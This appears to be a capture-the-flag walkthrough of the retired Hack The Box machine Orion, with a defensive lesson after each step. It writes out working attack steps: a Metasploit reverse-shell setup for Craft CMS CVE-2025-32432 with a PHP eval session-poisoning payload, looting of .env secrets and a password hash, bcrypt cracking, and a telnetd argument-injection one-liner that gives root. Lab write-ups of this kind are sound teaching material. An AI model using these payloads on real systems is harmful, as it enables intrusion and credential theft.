





# HTB Orion: Walkthrough

## Machine Info

| Field | Detail |
|-------|--------|
| Platform | Hack The Box |
| Machine | Orion |
| Difficulty | Very Easy |
| OS | Linux (Ubuntu 22.04.5 LTS, kernel 5.15.0-177-generic) |
| IP | 10.129.XX.XX |
| Status | Retired |
| CVEs exploited | CVE-2025-32432 (Craft CMS pre-auth RCE), CVE-2026-24061 (inetutils telnetd argument injection) |

---

## Summary

Orion runs a Craft CMS 5.6.16 instance in developer mode on Ubuntu 22.04. Foothold is achieved through a pre-authentication remote code execution in Craft (CVE-2025-32432) that abuses Yii2 object instantiation and PHP session-file poisoning to run code as `www-data`. Once inside, a leaky phpinfo endpoint and a `.env` file give up the MariaDB root password and Craft security key; the database yields a bcrypt hash for admin `adam@orion.htb` that cracks to `<REDACTED>`. That password is reused for SSH, which gives a real user shell. Privilege escalation is a localhost-only `telnetd` (inetutils 2.7) vulnerable to CVE-2026-24061, an argument-injection flaw that allows `USER="-f root" telnet -a 127.0.0.1` to skip authentication entirely and drop straight into a root shell.

---

## Step 1: Reconnaissance

**Objective:** identify open services and the attack surface.

```bash
nmap -sVC -p- 10.129.XX.XX
```

Results:

- 22/tcp: OpenSSH 8.9p1 (Ubuntu 3ubuntu0.15)
- 80/tcp: nginx 1.18.0 (Ubuntu), redirecting to `http://orion.htb/`

Added the vhost to `/etc/hosts`:

```bash
echo "10.129.XX.XX orion.htb" | sudo tee -a /etc/hosts
```

**What this told me:**

- Two ports on a fresh Ubuntu build. Nothing exotic. That means either the web application is the interesting surface, or something is bound to loopback and I will not see it until I have a local foothold. Both turned out to be true.
- The redirect to `orion.htb` is a routing hint: the server is expecting a virtual host, not raw IP. Web tooling that ignores that will get useless responses.
- The site advertises "Orion Telecom", a fictional telco pitching government and enterprise clients. Framing worth noting because it sets the tone for the pretext of the box.

**Screenshot:** Figure 1



---

## Step 2: Web Enumeration

**Objective:** map the web application and identify the platform.

```bash
gobuster dir -u http://orion.htb \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -x php,html,txt -t 50
```

Results worth pulling out:

- `/admin` returned 302 to `/admin/login` (a real admin panel exists)
- `/assets/` returned 301
- Requests to `wp-admin` returned HTTP 418 (Craft CMS's non-standard "not found" response)
- A large cluster of same-length hits (12272 bytes) matching Craft's catch-all routing

**What this told me:**

- The HTTP 418 response was the tell. WordPress does not do that. Craft does. Framework fingerprinting from an error response beats a header check nine times out of ten.
- The catch-all responses are noise, not signal. I discarded anything that came back at the same byte length as the catch-all.
- I now needed a version number for Craft, because Craft has known pre-auth CVEs and the exploitability window depends on the exact minor version.

**Screenshot:** Figure 2


---

## Step 3: Version Fingerprint and CVE Mapping

**Objective:** identify the Craft version and map to known vulnerabilities.

Browsing to `/admin/login` revealed the version in the page footer: **Craft CMS 5.6.16**. Developer oversight; framework version numbers should never render on unauthenticated pages.

Cross-referenced against the CVE database:

- CVE-2025-46731 (Twig SSTI): requires admin authentication, so not a foothold.
- CVE-2025-32432: pre-authentication RCE via `assets/generate-transform`, CVSS 10.0 Critical. Vulnerable range covers 5.6.16; patched in 5.6.17.

**What this told me:**

- The site is one minor version behind the patch. That is a patch-discipline failure the defender needs to hear about.
- Two candidate CVEs, only one usable without credentials. Order matters: pre-auth first, post-auth later if I get admin.
- 46731 was still worth remembering because if I ever got admin, I would have a second full-compromise path.

**Screenshot:** Figure 3



---

## Step 4: Foothold: CVE-2025-32432

**Objective:** obtain code execution as `www-data`.

First attempt used the public PoC `exploitdb 52525.py`. It failed immediately at Step 0.

**Why it failed:** the script assumed a `PHPSESSID` cookie name and a `/tmp/sess_*` session path. Craft uses `CraftSessionId` and stores sessions in `/var/lib/php/sessions/`. Public PoCs bake environment assumptions into hardcoded strings; they are a starting point, not a finished tool.

Pivoted to the Metasploit module:

```
use exploit/linux/http/craftcms_preauth_rce_cve_2025_32432
set RHOSTS orion.htb
set LHOST 10.10.17.39
set LPORT 4444
set TARGET Unix/Linux Command Shell
run
```

The module automates:

- CSRF token acquisition (`CraftSessionId` + `CRAFT_CSRF_TOKEN` + `X-CSRF-Token` header)
- `session.save_path` discovery via a phpinfo leak (confirmed `/var/lib/php/sessions`)
- Session-file poisoning and Yii2 gadget-chain trigger

A Meterpreter session opened as `www-data`. Dropped to a shell and stabilised:

```bash
script /dev/null -c /bin/bash
```

**Attack chain, mechanical breakdown:**

- `POST /index.php?p=admin/actions/assets/generate-transform` with a crafted JSON body
- Yii2's object-config parser sees a `class` key and instantiates arbitrary classes
- `yii\rbac\PhpManager` is primed as a gadget that will `include()` a chosen file
- `GET /index.php?p=admin/dashboard&a=<?php eval($_GET['cmd']); ?>` writes the payload into `/var/lib/php/sessions/sess_<CraftSessionId>`
- Triggering the gadget causes `PhpManager` to `include()` the poisoned session file, executing PHP as `www-data`

**What this told me:**

- The public PoC failure was the more valuable lesson than the Metasploit success. It forced me to read the exploit source, understand the assumptions, and identify precisely why it broke. That is the difference between running exploits and understanding them.
- The core weakness is that Yii2 will happily instantiate classes named by user input. That is a design decision, not a bug in a single function, which is why the class of vulnerability keeps recurring across frameworks.

**Screenshot:** Figure 4


---

## Step 5: Post-Exploitation: Environment Looting

**Objective:** find credentials and secrets available to `www-data`.

Enumerated the Craft install root:

```bash
cd /var/www/html/craft/storage/logs
ls -la
cat phperrors.log
```

The phpinfo leak from Step 4 had already spilled the full `$_SERVER` environment. Combined with the `.env` file, this exposed:

- `CRAFT_ENVIRONMENT=dev`: production instance running dev config
- `CRAFT_DEV_MODE=true`: verbose errors, environment disclosure
- `CRAFT_ALLOW_ADMIN_CHANGES=true`: would enable CVE-2025-46731 (SSTI) if I later got admin
- `CRAFT_APP_ID`, `CRAFT_SECURITY_KEY`
- `CRAFT_DB_USER=root`,
- `CRAFT_DB_PASS= <REDACTED>`

**What this told me:**

- Dev mode in production is a compounding failure: it makes ordinary bugs into intelligence gifts. Without the phpinfo disclosure I would have needed a separate LFI to reach these values.
- The Craft app was connecting to MariaDB as `root`. That is a least-privilege violation independent of everything else: even if the app had no bugs, a database credential leak here would give an attacker full DBA rights.
- Two candidate attack surfaces surfaced from a single loot pass. Always look for what a credential unlocks, not just the credential itself.

**Screenshot:** Figure 5


---

## Step 6: Database Enumeration and Hash Extraction

**Objective:** get application credentials that might work elsewhere.

```bash
mysql -u root -p orion
```

```sql
SHOW TABLES;
-- 66 tables
DESCRIBE users;
-- 28 columns
SELECT id, username, email, password FROM users;
```

Result: one admin record.

```
id: 1
username: admin
email: adam@orion.htb
password: <REDACTED>
```

The email is the tell. `adam@orion.htb`. If there is an OS account named `adam` and the admin reuses their password, SSH is going to open.

**What this told me:**

- The `$2y$13$` prefix identifies bcrypt with cost factor 13. That is a slow hash; cracking will not be instant, but `rockyou.txt` is always worth a first pass on a CTF.
- The username-vs-email mismatch (`admin` in the CMS, `adam` in the email) is a signal, not a confusion. It hints strongly that the OS account is `adam` and the CMS role is just labelled `admin`.

**Screenshot:** Figure 6



---

## Step 7: Offline Hash Cracking

**Objective:** recover the plaintext password.

Copied the hash to my Kali host and ran:

```bash
echo <REDACTED> > hash.txt
hashcat -m 3200 hash.txt /usr/share/wordlists/rockyou.txt
```

`-m 3200` is bcrypt. On CPU-only hardware (Intel i7-10750H, Hashcat 7.1.2) this took time, but bcrypt against a dictionary word will still fall.

Cracked plaintext: `<REDACTED>`.

**What this told me:**

- Cost 13 is slow enough that pure brute force is unrealistic, but weak enough that a wordlist hit is still trivial. The defender's mistake is not the cost; it is allowing a rockyou-tier password to be set in the first place.
- If the admin used a wordlist password, the SSH account might too. Reuse is the more valuable finding than the crack itself.

**Screenshot:** Figure 7


---

## Step 8: Lateral Movement: SSH as adam

**Objective:** convert application credentials into an OS session.

```bash
ssh adam@orion.htb
# password: <REDACTED>
```

Session opened as `adam`. `user.txt` retrieved from the home directory.

**What this told me:**

- Password reuse across trust boundaries (application admin → OS user) is one of the most consistent findings in real assessments. It is boring, not glamorous, and it works constantly.
- Callback to CCTV: same pattern (hash-tier credential material reused for login) turned that box too. When something works twice, it becomes a checklist item.

**Screenshot:** Figure 8



---

## Step 9: Local Service Enumeration

**Objective:** find internal attack surface that was invisible from the outside.

```bash
ss -tlnp
```

Listeners:

- `127.0.0.1:53`: systemd-resolved
- `0.0.0.0:80`, `0.0.0.0:22`: nginx, SSH (externally reachable)
- `127.0.0.1:3306`: MariaDB (loopback only, correctly bound)
- `127.0.0.1:23`: **telnetd** (loopback only)

The telnet daemon on 23 is the standout. In 2026 telnet has no legitimate operational purpose on a modern Linux host. Its presence alone is a finding.

```bash
telnet --version
# GNU inetutils 2.7
```

**What this told me:**

- Loopback-only services do not appear in external nmap. This is exactly why local enumeration after every foothold is non-negotiable, no matter how well you scanned externally.
- inetutils 2.7 combined with a running `telnetd` matches the vulnerability signature for CVE-2026-24061. Time to check the mechanics.

**Screenshot:** Figure 9



---

## Step 10: Privilege Escalation: CVE-2026-24061

**Objective:** escalate to root.

CVE-2026-24061 (CVSS 9.8 Critical) is an argument-injection flaw (CWE-88) in GNU inetutils `telnetd`. The daemon forwards the client-supplied `USER` environment variable directly into `login(1)` without sanitisation. `login` accepts a `-f` flag that skips authentication when the caller is trusted. Injecting `-f root` into `USER` therefore makes `login` treat it as its own command-line flags and skip authentication entirely.

The trigger:

```bash
USER="-f root" telnet -a 127.0.0.1
```

`root.txt` retrieved.

**What this told me:**

- This is a textbook argument-injection: user-controlled data crosses a process boundary into a setuid binary, and the receiver parses it before validating it. The class of bug is old; the CVE is recent. Same shape, different year.
- Root cause is not "telnet is bad", it is "unsanitised data was passed as arguments to a security-sensitive binary". Removing telnet is the pragmatic fix; the wider lesson is where a defender should audit for similar patterns.

**Screenshot:** Figure 10


---

## Flags

| Flag | Method | Status |
|------|--------|--------|
| User | SSH as `adam` with password reused from cracked Craft admin bcrypt hash | [REDACTED] |
| Root | Argument injection into `login` via `telnetd` (CVE-2026-24061) | [REDACTED] |

---

## Tools Used

| Tool | Purpose |
|------|---------|
| nmap | Port and service discovery |
| gobuster | Web directory brute force |
| Metasploit Framework | Automated exploitation of CVE-2025-32432 |
| mysql client | Database enumeration and hash extraction |
| hashcat | Offline bcrypt cracking (`-m 3200`) |
| OpenSSH client | Lateral movement to `adam` |
| telnet client (inetutils) | Privilege escalation trigger |

---

## Lessons Learned

1. **Read your PoCs before running them.** The exploitdb script failed because I did not check its cookie and session-path assumptions against the target. Reading the source before firing would have saved a wasted attempt and taught me the mechanics before Metasploit did it for me.
2. **Loopback services are invisible to external scans by design.** Always run local port enumeration after any foothold, not just once at the start. Half the interesting surface on Orion was on 127.0.0.1.
3. **Password reuse across trust boundaries keeps working.** Application credential → OS credential (Orion), hash-as-password (CCTV): the pattern recurs. When something is proven to be the shortest path twice, it becomes a checklist reflex.

---

## References

| Resource | URL |
|----------|-----|
| CVE-2025-32432 (Craft CMS pre-auth RCE) | https://nvd.nist.gov/vuln/detail/CVE-2025-32432 |
| Craft CMS security advisories | https://github.com/craftcms/cms/security/advisories |
| CVE-2026-24061 (inetutils telnetd argument injection) | https://nvd.nist.gov/vuln/detail/CVE-2026-24061 |
| CWE-88: Argument Injection or Modification | https://cwe.mitre.org/data/definitions/88.html |
| Metasploit module: craftcms_preauth_rce_cve_2025_32432 | https://github.com/rapid7/metasploit-framework |

---

*This walkthrough documents a retired Hack The Box machine completed in an authorised lab environment for educational purposes. Flags are redacted. No unauthorised systems were accessed.*
